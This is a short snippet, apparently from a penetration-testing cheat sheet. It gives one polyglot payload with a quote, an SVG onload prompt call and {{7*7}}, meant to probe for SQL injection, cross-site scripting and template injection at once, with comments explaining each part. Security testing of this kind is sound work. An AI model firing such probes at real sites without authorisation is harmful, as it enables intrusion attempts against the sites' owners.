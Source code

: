 # To test XSS + SQLi + SSTI/CSTI with the same payload use : 

'"><svg/onload=prompt(5);>{{7*7}}

# ' ==> for Sql injection 
# "><svg/onload=prompt(5);> ==> for XSS 
# {{7*7}} ==> for SSTI/CSTI
